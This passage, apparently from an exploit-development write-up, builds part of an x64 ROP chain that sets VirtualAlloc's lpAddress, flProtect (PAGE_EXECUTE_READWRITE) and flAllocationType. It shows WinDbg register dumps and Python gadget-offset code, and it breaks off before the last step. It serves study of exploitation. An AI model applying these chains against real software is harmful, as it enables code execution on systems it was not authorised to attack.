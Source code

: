 ## lpAddress

I needed to get a reference to the stack into `rcx`. I noticed that when my ROP chain was hit that `r8` and `r11`, along with `rsp` already contained addresses on the stack:

```
rax=00000000ffffffff rbx=0000022515ceca00 rcx=e467870ae48d0000
rdx=0000000000000000 rsi=0000000000000000 rdi=4141414141414141
rip=00007ff6e5b116f1 rsp=000000abc94fe858 rbp=0000000000000000
 r8=000000abc94fe0c8  r9=0000000000000000 r10=0000000000000000
r11=000000abc94fe770 r12=0000000000000000 r13=0000000000000000
r14=0000000000000000 r15=0000000000000000
iopl=0         nv up ei pl nz na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
```

This was the easiest parameter to set, I moved the stack value in `r11` into `rax`, then moved that value in to `rcx`; job done (provided none of my other ROP chains corrupted `rcx`):

```python
# lpAddress rcx
# ---------------------------------------------------------------------------------
buffer += pack("<Q", base_address + 0x30f1)         # mov rax, r11 ; ret ;
# rax has a reference to the stack, need to get it in to rcx
buffer += pack("<Q", base_address + 0x1f80)         # mov rcx, rax ; ret ;
```

## flProtect

Next I moved the value of `0x40` into `r9`; this is the value `PAGE_EXECUTE_READWRITE`. The reason that `flPrtoect` parameter was populated next is that one of the ROP gadgets moves `0x0` in to `r8` which would nullify any value I had written in to the `flAllocationType` parameter in `r8`:

```python
# flProtect - r9
# ---------------------------------------------------------------------------------
buffer += pack("<Q", base_address + 0x1f5e7)        # pop rbx ; ret ;
buffer += pack("<Q", 0x40)                          # 0x40
buffer += pack("<Q", base_address + 0x1f90)         # mov r9, rbx ; mov r8, 0x0000000000000000 ; 
																										# add rsp, 0x08 ; ret ;
buffer += b"B" * 0x8                                # padding for add rsp, 0x08
```

> [!NOTE]
>
> Another residual consequence of this gadget is `add rsp 0x08`. I needed to make sure I padded the stack whenever I saw this instruction.

## flAllocationType

I could not find a reliable chain/gadget that moved the value `0x1000` in to `r8`, I spent quite some time on this. I found several chains that got me `0x1000` into `r8` but they all had residual consequences that broke the rest of the ROP chain. Eventually I settled on using the value in `r9` and adding it `0x40` times to `r8` (which was set to `0x0`). This gave me the required value in `r8` (`MEM_COMMIT`):


[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"